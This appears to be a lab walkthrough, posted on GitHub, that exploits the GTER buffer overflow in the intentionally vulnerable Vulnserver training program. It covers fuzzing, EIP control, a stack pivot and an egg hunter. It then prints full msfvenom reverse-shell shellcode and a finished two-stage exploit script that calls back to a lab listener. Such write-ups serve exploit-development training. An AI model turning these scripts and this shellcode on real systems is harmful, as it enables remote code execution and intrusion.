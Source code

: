# Vulnserver GTER - Staged exploitation and Egg hunting

- [Vulnserver GTER - Staged exploitation and Egg hunting](#vulnserver-gter---staged-exploitation-and-egg-hunting)
  - [Prologue](#prologue)
  - [Spiking the Vulnserver](#spiking-the-vulnserver)
  - [Analysing the source code](#analysing-the-source-code)
  - [Fuzzing the server](#fuzzing-the-server)
  - [Finding offset](#finding-offset)
  - [Overwriting Instruction Pointer](#overwriting-instruction-pointer)
  - [Finding bad characters](#finding-bad-characters)
  - [Redirecting code execution](#redirecting-code-execution)
  - [Stack pivoting](#stack-pivoting)
  - [Crafting egg hunter](#crafting-egg-hunter)
  - [Crafting shellcode](#crafting-shellcode)
  - [Staging shellcode](#staging-shellcode)
  - [Exploitation](#exploitation)

## Prologue

In this blog post, will discuss about ```GTER``` command from Vulnserver, where we will be exploiting it by using ```stack pivoting``` and ```egg hunting``` 

## Spiking the Vulnserver

Creating a ```spike script``` for spiking using ```generic_send_tcp```,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat gter.spk 
s_readline();
s_string("GTER ");
s_string_variable("0");
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ generic_send_tcp 192.168.116.140 9999 gter.spk 0 0 
Total Number of Strings is 681
Fuzzing
Fuzzing Variable 0:0
line read=Welcome to Vulnerable Server! Enter HELP for help.
Fuzzing Variable 0:1
Variablesize= 5004
Fuzzing Variable 0:2
Variablesize= 5005

...

```

While spiking GTER command, we could see that we could not connect to the Vulnserver anymore

Yes.. It got crashed!!

We could see that our Vulnserver application has been terminated by ```Access Violation error```

From this we can confirm that, ```GTER``` command is vulnerable to Buffer Overflow attack

## Analysing the source code

The source code for this command is,

```c
 else if (strncmp(RecvBuf, "GTER ", 5) == 0) {
				char *GterBuf = malloc(180);
				memset(GdogBuf, 0, 1024);
				strncpy(GterBuf, RecvBuf, 180);				
				memset(RecvBuf, 0, DEFAULT_BUFLEN);
				Function1(GterBuf);
				SendResult = send( Client, "GTER ON TRACK\n", 14, 0 );
			}
```

It copies only ```180 bytes``` of our data into ```GterBuf``` by using ```strncpy()```

```strncpy()``` is not vulnerable, but we have only ```small buffer space``` which becomes a constraint for us

After storing these, it invokes the vulnerable function ```Function1(GterBuf)```

The souce code of this vulnerable function is,

```c
void Function1(char *Input) {
	char Buffer2S[140];
	strcpy(Buffer2S, Input);
}
```

Here the main overflow attack is caused by ```strcpy``` function, where ```Buffer2S``` is only limited for 140 bytes but the incoming buffer has more data (180 bytes) than that causing it to overflow the Buffer2S buffer while copying

This command does not expects any special character used for validation

## Fuzzing the server

We have successfully crashed our server and the payload data begins with ```GTER ``` which is made up of ```5 bytes```

Lets create a python script which generates payload data and fuzzes the payload length to crash the server

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat fuzzing.py
import socket, sys
from time import sleep
payload=b"A"*100
while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.116.140", 9999))
        s.send((b"GTER "+payload))
        sleep(5)
        payload=payload+b"A"*100
    except:
        print("Fuzzing crashed at %s bytes"%(len(payload)))
        sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 fuzzing.py
Fuzzing crashed at 300 bytes
```

The Vulnserver application should be ran without debugger, to avoid socket connection errors while fuzzing

So, from fuzzing we can estimate that our Vulnserver application is crashing at ```300 bytes``` of buffer data

Still, we are not sure about the approximate buffer space data need to create an overflow

## Finding offset

Creating pattern using ```metasploit```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_create -l 300 
<GENERATED PATTERN>
```

Fuzzing with the pattern to crash the program,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat offset.py       
import socket, sys
pattern=b"<GENERATED PATTERN>"
payload=b""
# fuzzing for EIP offset
payload+=pattern
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER ./"+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 offset.py       
```

This will crash the program, where our buffer will get overflowed and fills the Base Pointer and Instruction Pointer with the data from the pattern

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-offset-reg.png" style="width:40%">
</div>

Here we can see ```EIP``` has a data from the pattern we created, we can also use metasploit to find the offset

Lets find the offset using mona by ```!mona findmsp```,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-offset-findmsp.png">
</div>

We can see that our ```EIP``` is at the offset of ```151 bytes``` in the pattern

So we should use 5 bytes of ```GTER ``` and 151 bytes of ```A's``` to reach ```EIP```

## Overwriting Instruction Pointer

Now, we have found the offset of our EIP

It’s time to control the EIP, which is the important phase of every exploitation

Lets craft a script to overwrite the EIP with our own custom data, which will be further used to craft an exploit,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat overwrite-eip.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*151
# to overwrite EIP
payload+=b"D"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 overwrite-eip.py 
```

We have successfully overwrote the ```EIP``` with our own data ```0x44444444```

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-overwrite-offset.png" style="width:40%">
</div>

So we could control EIP and redirect the code execution to the next point

## Finding bad characters

Lets pass bad characters on our ```ESP``` memory to see our data dump on that region

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat badchars.py     
import socket, sys
# collection of badchars except \x00
badchars=(b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*151
# to overwrite EIP
payload+=b"B"*4
# fuzzing badchars on ESP
payload+=badchars
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 badchars.py      
```

It seems like, we don't have enough space to store all bad characters in ESP

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-badchars-offset.png">
</div>

We could pass limited set of bad characters again and again in sequence to test it

Or we could store that ```before EIP (EAX - Buffer data)``` and test it

Anyways, by testing in this method we could confirm there are no bad characters except ```null byte```

## Redirecting code execution

As for now, we can control the ```EIP``` and also we have only one ```bad character x00```,

Since we can control ```EIP```, we can use this as our advantage and redirect the code flow to any part of the memory where it is perfect to have shellcode execution along with our egg hunter

Lets find the perfect module for ```JMP ESP``` to get perfect redirection using ```!mona modules```,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-mona-modules.png">
</div>

On these, we can clearly see that only ```two modules``` have every security mitigations turned off

From these two, it is always best to try our exploit from an DLL of the own application and not from the actual exe itself

Lets find the ```jmp esp``` opcode from the memory of ```essfunc.dll```

To find the opcode using mona, we need the hex value of the opcode which can be done by ```nasm shell```

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ locate nasm_shell
/usr/bin/msf-nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
                                                                       
┌──(kali㉿aidenpearce369)-[~]
└─$ /usr/bin/msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
nasm > exit
```

Finding this offset using mona by the command ```!mona find -s \xff\xe4 -m essfunc.dll```,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-mona-jmpesp.png">
</div>

We could see there are 9 pointers available for this exploit which has ```jmp esp``` opcode in it and it also doesn’t change its memory address

Eventhough ```ASLR``` is enabled for other parts, here it is disabled which makes the address to remain static & suitable for exploitation

```NX bit``` is also disabled, which allows us to execute shellcode on stack memory

Also, while checking the pointer addresses make sure that the address do not contain bad characters in it, which may cause poor exploitation

Lets craft the script and enter the address of the opcode in ```little endian``` format because the data in stack is placed in little endian format

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat jmp-esp.py    
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*151
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
# padding
payload+=b"D"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 jmp-esp.py
```

After crashing, we can see that we landed perfectly on ESP memory

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-jmpesp-reg.png" style="width:40%">
</div>

So, we have successfully redirected our program flow

Next we have to point it with our shellcode

But the main constraint here is our buffer size, it is so small to fit our shellcode in it

What we can do is, place an ```egg hunter / opcodes for re-using socket``` to get the ```second stage shellcode``` to exploit the program

In this blog we will try to exploit this by using ```egg hunter```

## Stack pivoting

Since we are going to use ```egg hunter``` for this exploit, we need to store it somewhere

ESP has small size, so we need to place it in our buffer data and use ```short jump/ long jump``` to get back there

Lets try to land on 10th byte of buffer data which has ```5 bytes``` of ```GTER ``` first and extra 5 bytes of junk after it (Use NOPs for better working exploit) 

Our buffer data is being stored in ```EAX```, you can verify it using registers

Lets create the opcode value to drift back to EAX register using nasm-shell,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ /usr/bin/msf-nasm_shell
nasm > add eax,0x10
00000000  83C010            add eax,byte +0x10
nasm > jmp eax
00000000  FFE0              jmp eax
```

Adding this opcode in our python script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat stack-pivot.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*151
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
# stack pivot
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 stack-pivot.py 
```

After crashing the server, we can see this after executing ```JMP ESP```

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-shortjump-opcode.png">
</div>

Here we can see the opcode for the ```long jump to EAX register``` that we have crafted

After proceeding with step intos from ```JMP ESP```, we will hit the jump instruction and will be redirected here

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-shortjump-jump.png">
</div>

We have landed successfully past 10 bytes in the buffer data memory which we have sent

## Crafting egg hunter

We have used ```jmp eax``` to reach the buffer data memory, which is the perfect place to store our ```egg hunter```

Lets craft an egg hunter using ```!mona egg -t PWND -wow64 -winver 10```,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-mona-egg.png">
</div>

Now we have crafted our egg hunter of ```50 bytes```, lets place it in our python script and lets test it whether we are able to reach it after ```jmp eax```

Lets add ```NOPS sled``` before egg hunter to reach it effectively

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat egg-hunter.py 
import socket, sys
egg_hunter=b""
egg_hunter+=b"\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53"
egg_hunter+=b"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c"
egg_hunter+=b"\x05\x74\xdf\xb8\x50\x57\x4e\x44\x8b\xfa\xaf\x75\xda\xaf\x75\xd7"
egg_hunter+=b"\xff\xe7"
payload=b""
# to overwrite buffer and EBP
# NOP sled
payload+=b"\x90"*40 
# egg hunter
payload+=egg_hunter
payload+=b"C"*(151-len(payload))
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
# stack pivot
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 egg-hunter.py
```

After analysing it with break points, we can see that we are ahead of our egg hunter with NOPS sled which will execute perfectly

## Crafting shellcode

Lets generate the shellcode for our reverse shell using ```msfvenom```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.116.128 LPORT=9876 -f python -e x86/shikata_ga_nai -b "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xd9\xc6\xd9\x74\x24\xf4\xbe\x4b\x0e\xc3\xd4\x58\x33"
buf += b"\xc9\xb1\x52\x31\x70\x17\x83\xe8\xfc\x03\x3b\x1d\x21"
buf += b"\x21\x47\xc9\x27\xca\xb7\x0a\x48\x42\x52\x3b\x48\x30"
buf += b"\x17\x6c\x78\x32\x75\x81\xf3\x16\x6d\x12\x71\xbf\x82"
buf += b"\x93\x3c\x99\xad\x24\x6c\xd9\xac\xa6\x6f\x0e\x0e\x96"
buf += b"\xbf\x43\x4f\xdf\xa2\xae\x1d\x88\xa9\x1d\xb1\xbd\xe4"
buf += b"\x9d\x3a\x8d\xe9\xa5\xdf\x46\x0b\x87\x4e\xdc\x52\x07"
buf += b"\x71\x31\xef\x0e\x69\x56\xca\xd9\x02\xac\xa0\xdb\xc2"
buf += b"\xfc\x49\x77\x2b\x31\xb8\x89\x6c\xf6\x23\xfc\x84\x04"
buf += b"\xd9\x07\x53\x76\x05\x8d\x47\xd0\xce\x35\xa3\xe0\x03"
buf += b"\xa3\x20\xee\xe8\xa7\x6e\xf3\xef\x64\x05\x0f\x7b\x8b"
buf += b"\xc9\x99\x3f\xa8\xcd\xc2\xe4\xd1\x54\xaf\x4b\xed\x86"
buf += b"\x10\x33\x4b\xcd\xbd\x20\xe6\x8c\xa9\x85\xcb\x2e\x2a"
buf += b"\x82\x5c\x5d\x18\x0d\xf7\xc9\x10\xc6\xd1\x0e\x56\xfd"
buf += b"\xa6\x80\xa9\xfe\xd6\x89\x6d\xaa\x86\xa1\x44\xd3\x4c"
buf += b"\x31\x68\x06\xc2\x61\xc6\xf9\xa3\xd1\xa6\xa9\x4b\x3b"
buf += b"\x29\x95\x6c\x44\xe3\xbe\x07\xbf\x64\x01\x7f\xcb\xf4"
buf += b"\xe9\x82\x33\xd3\x7d\x0b\xd5\x71\x6e\x5a\x4e\xee\x17"
buf += b"\xc7\x04\x8f\xd8\xdd\x61\x8f\x53\xd2\x96\x5e\x94\x9f"
buf += b"\x84\x37\x54\xea\xf6\x9e\x6b\xc0\x9e\x7d\xf9\x8f\x5e"
buf += b"\x0b\xe2\x07\x09\x5c\xd4\x51\xdf\x70\x4f\xc8\xfd\x88"
buf += b"\x09\x33\x45\x57\xea\xba\x44\x1a\x56\x99\x56\xe2\x57"
buf += b"\xa5\x02\xba\x01\x73\xfc\x7c\xf8\x35\x56\xd7\x57\x9c"
buf += b"\x3e\xae\x9b\x1f\x38\xaf\xf1\xe9\xa4\x1e\xac\xaf\xdb"
buf += b"\xaf\x38\x38\xa4\xcd\xd8\xc7\x7f\x56\xe8\x8d\xdd\xff"
buf += b"\x61\x48\xb4\xbd\xef\x6b\x63\x81\x09\xe8\x81\x7a\xee"
buf += b"\xf0\xe0\x7f\xaa\xb6\x19\xf2\xa3\x52\x1d\xa1\xc4\x76"
```

We have crafted our shellcode which is made up of ```351 bytes``` and it is almost impossible to send our payload in buffer data or in ESP

So lets use a ```staging exploitation technique``` to send this payload

## Staging shellcode

Since we are using ```egg hunters``` to find the shellcode, it is mandatory that the shellcode should be found within the ```Virtual Address Space``` of the process

We can execute our shellcode in the VAS of the same process by,

- ```FIRST STAGE``` - Sending the shellcode with other commands which utilizes large buffer space to store the shellcode
- The shellcode sent will be saved in the memory
- ```SECOND STAGE``` - Sending our egg hunter after that, using our buffer data in which we have control to hunt the shellcode
- The egg hunter analyses the EGG in VAS memory and makes the shellcode to get executed

By seeing the source code, ```TRUN``` command  will be suitable for storing the first staged payload

```c
else if (strncmp(RecvBuf, "TRUN ", 5) == 0) {
				char *TrunBuf = malloc(3000);
				memset(TrunBuf, 0, 3000);
				for (i = 5; i < RecvBufLen; i++) {
					if ((char)RecvBuf[i] == '.') {
						strncpy(TrunBuf, RecvBuf, 3000);				
						Function3(TrunBuf);
						break;
					}
				}
				memset(TrunBuf, 0, 3000);				
				SendResult = send( Client, "TRUN COMPLETE\n", 14, 0 );
			}
```

When we pass our payload inside this, we can use our egg hunter to hunt for the shellcode because it will be in the same VAS

## Exploitation

The exploit script for this buffer overflow via ```GTER``` command is,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat exploit.py    
import socket, sys
from time import sleep

egg=b"PWNDPWND"

egg_hunter=b""
egg_hunter+=b"\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53"
egg_hunter+=b"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c"
egg_hunter+=b"\x05\x74\xdf\xb8\x50\x57\x4e\x44\x8b\xfa\xaf\x75\xda\xaf\x75\xd7"
egg_hunter+=b"\xff\xe7"

buf =  b""
buf += b"\xd9\xc6\xd9\x74\x24\xf4\xbe\x4b\x0e\xc3\xd4\x58\x33"
buf += b"\xc9\xb1\x52\x31\x70\x17\x83\xe8\xfc\x03\x3b\x1d\x21"
buf += b"\x21\x47\xc9\x27\xca\xb7\x0a\x48\x42\x52\x3b\x48\x30"
buf += b"\x17\x6c\x78\x32\x75\x81\xf3\x16\x6d\x12\x71\xbf\x82"
buf += b"\x93\x3c\x99\xad\x24\x6c\xd9\xac\xa6\x6f\x0e\x0e\x96"
buf += b"\xbf\x43\x4f\xdf\xa2\xae\x1d\x88\xa9\x1d\xb1\xbd\xe4"
buf += b"\x9d\x3a\x8d\xe9\xa5\xdf\x46\x0b\x87\x4e\xdc\x52\x07"
buf += b"\x71\x31\xef\x0e\x69\x56\xca\xd9\x02\xac\xa0\xdb\xc2"
buf += b"\xfc\x49\x77\x2b\x31\xb8\x89\x6c\xf6\x23\xfc\x84\x04"
buf += b"\xd9\x07\x53\x76\x05\x8d\x47\xd0\xce\x35\xa3\xe0\x03"
buf += b"\xa3\x20\xee\xe8\xa7\x6e\xf3\xef\x64\x05\x0f\x7b\x8b"
buf += b"\xc9\x99\x3f\xa8\xcd\xc2\xe4\xd1\x54\xaf\x4b\xed\x86"
buf += b"\x10\x33\x4b\xcd\xbd\x20\xe6\x8c\xa9\x85\xcb\x2e\x2a"
buf += b"\x82\x5c\x5d\x18\x0d\xf7\xc9\x10\xc6\xd1\x0e\x56\xfd"
buf += b"\xa6\x80\xa9\xfe\xd6\x89\x6d\xaa\x86\xa1\x44\xd3\x4c"
buf += b"\x31\x68\x06\xc2\x61\xc6\xf9\xa3\xd1\xa6\xa9\x4b\x3b"
buf += b"\x29\x95\x6c\x44\xe3\xbe\x07\xbf\x64\x01\x7f\xcb\xf4"
buf += b"\xe9\x82\x33\xd3\x7d\x0b\xd5\x71\x6e\x5a\x4e\xee\x17"
buf += b"\xc7\x04\x8f\xd8\xdd\x61\x8f\x53\xd2\x96\x5e\x94\x9f"
buf += b"\x84\x37\x54\xea\xf6\x9e\x6b\xc0\x9e\x7d\xf9\x8f\x5e"
buf += b"\x0b\xe2\x07\x09\x5c\xd4\x51\xdf\x70\x4f\xc8\xfd\x88"
buf += b"\x09\x33\x45\x57\xea\xba\x44\x1a\x56\x99\x56\xe2\x57"
buf += b"\xa5\x02\xba\x01\x73\xfc\x7c\xf8\x35\x56\xd7\x57\x9c"
buf += b"\x3e\xae\x9b\x1f\x38\xaf\xf1\xe9\xa4\x1e\xac\xaf\xdb"
buf += b"\xaf\x38\x38\xa4\xcd\xd8\xc7\x7f\x56\xe8\x8d\xdd\xff"
buf += b"\x61\x48\xb4\xbd\xef\x6b\x63\x81\x09\xe8\x81\x7a\xee"
buf += b"\xf0\xe0\x7f\xaa\xb6\x19\xf2\xa3\x52\x1d\xa1\xc4\x76"

stage1_payload=b""
stage1_payload+=egg
stage1_payload+=buf

stage2_payload=b""
stage2_payload+=b"\x90"*40
stage2_payload+=egg_hunter
stage2_payload+=b"C"*(151-len(stage2_payload))
stage2_payload+=b"\xaf\x11\x50\x62"
stage2_payload+=b"\x90"
stage2_payload+=b"\x83\xc0\x10"
stage2_payload+=b"\xff\xe0"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"TRUN /.:/"+stage1_payload))
print("[+] Stage 1 payload sent")
s.close()

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+stage2_payload))
print("[+] Stage 2 payload sent")
s.close()

print("[+] Exploit complete.. Shell spawned")
```

By running this exploit, we would successfully spawn a reverse shell by executing our shellcode

<video width="100%" preload="auto" muted controls>
    <source src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-1-exploit.mp4" type="video/mp4"/>
</video>


